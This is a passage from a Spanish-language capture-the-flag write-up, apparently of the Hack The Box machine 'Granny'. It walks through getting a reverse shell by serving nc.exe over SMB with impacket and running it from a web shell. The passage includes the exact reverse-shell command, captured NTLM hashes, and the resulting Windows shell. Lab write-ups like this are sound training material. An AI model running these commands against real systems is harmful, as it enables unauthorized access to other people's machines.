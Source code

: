 Tenemos ejecución de comandos a nivel de sistema; por lo tanto, vamos a entablarnos una reverse shell. Primeramente, buscamos el archivo `nc.exe` en nuestra máquina, lo traemos a nuestro directorio de trabajo y nos compartmos un servidor por SMB.

```bash
❯ locate nc.exe
/usr/share/sqlninja/apps/nc.exe
❯ cp $(!!) .
cp $(locate nc.exe) .
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Nos ponemos en escucha por el puerto 443 y ejecutamos el siguiente comando en la web shell:

```bash
start /b \\10.10.14.16\smbFolder\nc.exe -e cmd 10.10.14.16 443
```

Y vemos que tenemos una conexión:

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.15,1030)
[*] AUTHENTICATE_MESSAGE (\,GRANNY)
[*] User GRANNY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY)
[*] User GRANNY\GRANNY$ authenticated successfully
[*] GRANNY$::HTB:043d21608523d7a700000000000000000000000000000000:b3ce0c226d649b1f7ee422cb50515b441b84027107699c3b:aaaaaaaaaaaaaaaa
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

